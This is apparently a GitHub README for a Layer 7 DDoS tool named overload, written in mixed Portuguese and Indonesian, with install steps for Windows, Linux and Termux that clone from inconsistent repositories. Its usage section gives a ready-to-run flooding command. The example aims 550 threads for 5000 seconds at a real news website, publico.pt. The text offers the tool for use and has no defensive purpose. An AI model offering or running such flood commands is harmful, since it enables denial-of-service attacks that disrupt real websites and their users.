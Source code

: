 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

# :computer: Janela Principal
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# INSTALLATION


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [aqui](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">aqui</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan
O comando básico para poder executar o overload é o seguinte.  

```
python3 sneazy.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 sneazy.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
